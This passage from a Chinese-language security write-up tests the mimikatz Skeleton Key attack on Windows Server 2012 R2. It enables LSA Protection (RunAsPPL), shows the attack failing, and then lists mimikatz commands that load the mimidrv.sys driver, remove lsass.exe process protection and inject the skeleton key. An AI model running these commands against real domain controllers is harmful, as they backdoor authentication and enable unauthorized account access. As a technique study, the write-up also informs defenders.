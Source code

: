 所以接下来换用Windows Server 2012 R2 x64进行测试

**（1）**配置LSA Protection

注册表位置：  
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`

如图![Alt text](http://drops.javaweb.org/uploads/images/6b699f820beece9f74de34fe05967986a4aed200.jpg)

新建-`DWORD`值，名称为`RunAsPPL`,数值为`00000001`

如图![Alt text](http://drops.javaweb.org/uploads/images/46966997d6e8e755476656fa4c2af01d9d0a0b8c.jpg)

重启系统

**（2）**测试Skeleton Key

**mimikatz命令：**

```
privilege::debug
misc::skeleton

```

此时失败![Alt text](http://drops.javaweb.org/uploads/images/bd00eabede9db9d1ea05ae5fe1b2537f9638cb3d.jpg)

**（3）**绕过LSA Protection

mimikatz早在2013年10月就已支持绕过LSA Protection

如图![Alt text](http://drops.javaweb.org/uploads/images/3446b0cb0a66cb03c88a36920e7134aa73e98f47.jpg)

**参考源码：**  
[https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_kernel.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_kernel.c)

**注：**  
该功能需要mimidrv.sys文件

![Alt text](http://drops.javaweb.org/uploads/images/c1eb713ef6266094794a8c8671f873b732d7ad25.jpg)

**mimikatz命令：**

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton

```

如图，导入驱动文件mimidrv.sys后，绕过LSA Protection，操作成功

![Alt text](http://drops.javaweb.org/uploads/images/9518fe208632b7d4cb0fd9f9af6193bcb80d1a27.jpg)

0x03 补充
=======

* * *
